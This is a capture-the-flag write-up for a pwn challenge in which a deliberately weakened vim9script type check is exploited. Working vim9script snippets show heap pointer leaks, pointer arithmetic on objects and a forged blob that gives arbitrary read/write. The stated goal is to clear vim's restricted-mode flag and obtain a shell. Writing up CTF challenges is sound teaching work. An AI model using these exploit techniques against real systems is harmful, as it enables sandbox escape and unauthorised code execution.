



# v9

| Category | Expected difficulty | Author                                     |
|----------|---------------------|--------------------------------------------|
| pwn      | extreme             | [@Chino](https://github.com/MarcoMeinardi) |

## Overview

In this challenge we are given a patch for the [vim](https://github.com/vim/vim) source code
and the objective is to exploit the new vim9script compiler/interpreter.

The majority of the patch is just to ensure that we can't directly open anything
that will help the exploit (`/proc/self/maps` was my main concern). There is just one interesting
line, that, in the `check_type_maybe` function, returns `OK` if `expected->tt_type` is
`VAR_NUMBER`:
```diff
--- a/src/vim9type.c
+++ b/src/vim9type.c
@@ -1325,6 +1325,7 @@ check_type_maybe(
 	where_T where)
 {
     int ret = OK;
+    if (expected->tt_type == VAR_NUMBER) return OK;
 
     // When expected is "unknown" we accept any actual type.
     // When expected is "any" we accept any actual type except "void".
```

Also, the binary name is `ridiculous_vim`, which starts with a `r`, so we are in restricted
mode and can't just use the shell.

## Solution

First of all, how does vim9 works? To be honest, I don't know. Everything I learned came
from trial and errors, from the source code and a bit of documentation, thus, take
everything with a grain of salt.

After a bit of debugging you will find that the added line gets almost always reached when
you explicitly declare all the types. This could mean that we can give to something that
requires a number-like object whatever object we like.

The first thing that came to my mind, was array indexes. Since they should be numbers, what
will happen if we use a string, for example?

```vim
vim9script
var s: string = "AAAA"
var arr: list<number> = [1]
arr[s]
```

And the result is...



Well, it did nothing. But understanding why, is a huge step in understanding the vulnerability.

Apparently the checks performed at compile time and at runtime are different. You may have
noticed that the `check_type_maybe` function can return not only `OK` and `FAIL`, but also `MAYBE`.
This because at compile time, we may have some uncertainty on the types, but not at runtime.
However, if the compilers returns `OK`, the runtime check will be skipped. So we just need
to create a function, it will be compiled with the "hacked" type check and it will run just
like that.

```vim
vim9script
def Fun()
    var s: string = "AAAA"
    var arr: list<number> = [1]
    arr[s]
enddef
Fun()
```

And...



Nice! That number is `0x5638f628a1a0`, definitely a leak.

Another thing that we may try, is to assign an object to a number. At runtime, it will just
be converted to that object, but at compile time it will be a number, thus we will be able
to use "number functions". Let's try with the `+`.
```vim
vim9script
def Fun()
    var s: string = "AAAA"
    var n: number = s
    n += 1
    echo n
enddef
Fun()
```



Wow, a crash! That's one way to quit vim.

Also, if you place a call to `input` just before the end of the function, you will see what
gets printed, and it is `AAA`, so we are definitely dealing with some pointers. Nice!

Now we have everything we need to exploit vim, just we have no idea how vim works. Time to explore!

The first thing I found really interesting, is the `disassemble` function. With this we can
see how a function gets compiled. It will be really useful when we will have to debug.
This is almost identical to python `dis` function and the disassembly is also similar, which
is funny.

```vim
vim9script
def Fun(n: number): number
    var x: number = n
    x += 10
    echo x
    return x
enddef
disassemble Fun

<SNR>2_Fun
    var x: number = n
   0 LOAD arg[-1]
   1 STORE $0

    x += 10
   2 LOAD $0
   3 PUSHNR 10
   4 OPNR +
   5 STORE $0

    echo x
   6 LOAD $0
   7 ECHO 1

    return x
   8 LOAD $0
   9 RETURN
```
```python
from dis import dis
def Fun(n):
    x = n
    x += 10
    print(x)
    return x
dis(Fun)

  2    0 LOAD_FAST        0 (n)
       2 STORE_FAST       1 (x)

  3    4 LOAD_FAST        1 (x)
       6 LOAD_CONST       1 (10)
       8 INPLACE_ADD
      10 STORE_FAST       1 (x)

  4   12 LOAD_GLOBAL      0 (print)
      14 LOAD_FAST        1 (x)
      16 CALL_FUNCTION    1
      18 POP_TOP

  5   20 LOAD_FAST        1 (x)
      22 RETURN_VALUE
```

Mandatory for dynamic analysis: debug symbols. Just clone the repo,
`CFLAGS="-g3 -O0" ./configure; make -j16` and here we go.

Another important thing is the `exec_instructions` function in `vim9execute.c`. If you jump at
line 3452, you will find a huge switch. This is the switch that select the compiled instruction.
This means that at that point we must have a lot of information on how the interpreter works.

The only argument passed to this function is `ectx` that (as the comment above the function says)
is the execution context. Looking at his type, we can figure out a lot of interesting things.
```c
struct ectx_S {
    garray_T    ec_stack;   // stack of typval_T values
    ...
};
```
We don't need much else from it. There is a stack with values and types on it. `typval_T` is:
```c
struct typval_S
{
    vartype_T   v_type;
    char    v_lock;     // see below: VAR_LOCKED, VAR_FIXED
    union
    {
        varnumber_T v_number;   // number value
        float_T     v_float;    // floating point number value
        char_u      *v_string;  // string value (can be NULL)
        list_T      *v_list;    // list value (can be NULL)
        dict_T      *v_dict;    // dict value (can be NULL)
        partial_T   *v_partial; // closure: function with args
#ifdef FEAT_JOB_CHANNEL
        job_T       *v_job;     // job value (can be NULL)
        channel_T   *v_channel; // channel value (can be NULL)
#endif
        blob_T      *v_blob;    // blob value (can be NULL)
        instr_T     *v_instr;   // instructions to execute
        class_T     *v_class;   // class value (can be NULL)
        object_T    *v_object;  // object value (can be NULL)
    } vval;
};
```
And that's pretty much all we need to know.

We have an array that behaves as a stack, with the variables on it (this comes from dynamic
analysis). The variables are stored as: 4 bytes of type, 4 bytes of lock (useless for us) and
8 bytes of pointer/number. Now we know exactly why it crashed when we added one to the
string: we added one to the pointer to the actual string, so it correctly printed one less
`A`, and it crashed, because when the execution terminates all the variable gets freed and
we are freeing a misaligned pointer.

We also know what is the first leak, the pointer to the characters. We can place the code
inside a try catch block, print the exception message and place an input to pause the
execution, so that we can see what's happening with the debugger.

Since we will have to do this anyway, let's create a decent function to return the leak.
```vim
def LeakObjPtr(obj: any): number
    try
       var x = []
        x[obj]
    catch /E684/
        var leak_str: string = v:exception
        # Be careful not to do: `var leak: number = leak_str[35 : ]`
        # It will compile because of the patch, but it will be a string,
        # there is no automatic conversion
        var leak: number = str2nr(leak_str[35 : ])
        echo printf("%#018lx\n", leak)  # Will be removed
        input("OK?")  # Will be removed
        return leak
    endtry
    return -1
enddef
LeakObjPtr("AAAA")
```

Print the retrieved address in gdb and: `"\211\201}\261"`... What on earth is this?

Apparently, strings are immutable and when you pass them to a function, you have to duplicate
them to push them in the stack. You don't simply copy the pointer, but you create a whole
new copy of the string (as stated in the documentation "strings are copied when used"),
and this string gets freed once the function returns, so that garbage is probably a tcache
pointer. With that sad, Strings are out of the game to exploit this. Instead, I decided
to use a `blob` object for the exploit. It's a bit harder to control, but once you
do it, you have proper arbitrary read/write.

A blob is just raw data, it is more powerful than a string, because it has a size, while
strings rely on `strlen`. Also, blobs have a reference counter and don't get copied at every use.

The blob structure is made like this:
```c
struct blobvar_S
{
    garray_T    bv_ga;          // growarray with the data
    int     bv_refcount;        // reference count
    char    bv_lock;            // zero, VAR_LOCKED, VAR_FIXED
};
typedef struct growarray
{
    int     ga_len;             // current number of items used
    int     ga_maxlen;          // maximum number of items possible
    int     ga_itemsize;        // sizeof(item)
    int     ga_growsize;        // number of items to grow each time
    void    *ga_data;           // pointer to the first item
} garray_T;
```

Our target is `bv_ga.ga_data`. After a bit of trying, I found out that we can leak (almost)
any 4 bytes with the `len` function, since it will give me the first 4 bytes of the blob
object and we can move the blob pointer as we like. You may think that it will not compile,
since you shouldn't be able to call `len` on a number. It turns out that this is a perfectly
legal thing to do, and that it should return the length of decimal representation of the number.

There is just one problem. The `refcount`. When we call `len`, a pointer to the argument will
be pushed to the stack and the `refcount` incremented, but when the function returns, the
`refcount` gets decremented, and if it was 0 before the call (because it might be an invalid
object), the object will be freed and the program will crash. Hence, we can only leak 4 bytes,
where `*(int*)(ptr + 0x18)` is not zero.

Knowing this, we can leak the 4 low bytes of the data pointer (`blob + 0x10`), because
`(blob + 0x10) + 0x18` is the size of the next chunk in the heap. Suddenly, we cannot leak
the high 4 bytes, because the high 4 bytes of the chunk size are always zero. An easy
workaround for this is to leak the upper four bytes with the other leak method, the
out of range one. Since we are always in the heap, those bytes won't change, even if
they are not of the same address.

So the leak function will be:
```vim
def LeakBlobDataPtr(obj: blob): number
    var high: number = LeakObjPtr("") >> 32

    var hook: number = obj
    hook += 0x10
    var low: number = and(len(hook), 0xffffffff)
    hook -= 0x10

    return or(high << 32, low)
enddef
```

Now that we have all the pointers we need, we have to craft our own blob and point another blob
to it, in order to control the data pointer:
```vim
var target: blob = 0z4141414141414141
var fake_blob: blob
# Big endian
fake_blob += 0z4141414142424242  # len, maxlen
fake_blob += 0z0100000064000000  # itemsize, growsize
fake_blob += 0z4343434343434343  # data
fake_blob += 0zff00000000000000  # refcount, lock

var target_ptr: number = LeakObjPtr(target)
var fake_blob_data_ptr: number = LeakBlobDataPtr(fake_blob)
var hook: number = target
hook += fake_blob_data_ptr - target_ptr
# You cannot do `hook = fake_blob_data_ptr`, because the object will be overwritten and will
# return to be a number
# I could have multiplied by zero and avoided the first leak, but that's fine.
```

Finally, we have arbitrary read/write, so we scan the heap to find a binary pointer left
by some vim internals and then write zero on the `restricted` variable, this way we will
be allowed to run a shell.

[Full exploit](solution/exploit.vim)
